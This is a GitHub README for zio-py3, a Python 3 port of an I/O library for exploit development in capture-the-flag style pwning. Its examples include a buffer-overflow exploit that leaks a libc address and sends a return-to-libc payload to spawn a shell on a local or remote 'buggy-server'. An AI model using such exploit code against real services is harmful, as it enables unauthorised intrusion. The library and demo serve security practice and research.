 
# zio-py3

![Python package](https://github.com/taoky/zio/workflows/Python%20package/badge.svg)

Original `zio` project: <https://github.com/zTrix/zio>, by [zTrix](https://github.com/zTrix/)

This repository tries to turn `zio` into a Python 3 project (well `pwntools` is just too much heavyweight). It is still unstable now.

---

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')            # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Dependency

 - Linux or macOS
 - Python 3.5+
 - termcolor (optional, for color support)
    - $ pip install termcolor

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/taoky/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip3 install termcolor # for color support, optional
$ pip3 install --upgrade git+https://github.com/taoky/zio.git
```

## Examples
 
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in range(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write(b"add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + b"A" * 49 + b"\nshow\n")
io.read_until(b'A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
io.write(b'info ' + payload + b"\nshow\nexit\n")
io.read_until(b">>")
# We've got a shell;-)
io.interact()
```

## Document

To be added... Please wait...

### about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

## Thanks (Also references)

 - [zio](https://github.com/zTrix/zio)
 - [pexpect](https://github.com/pexpect/pexpect) I (zTrix) borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/


[zio]:https://github.com/taoky/zio
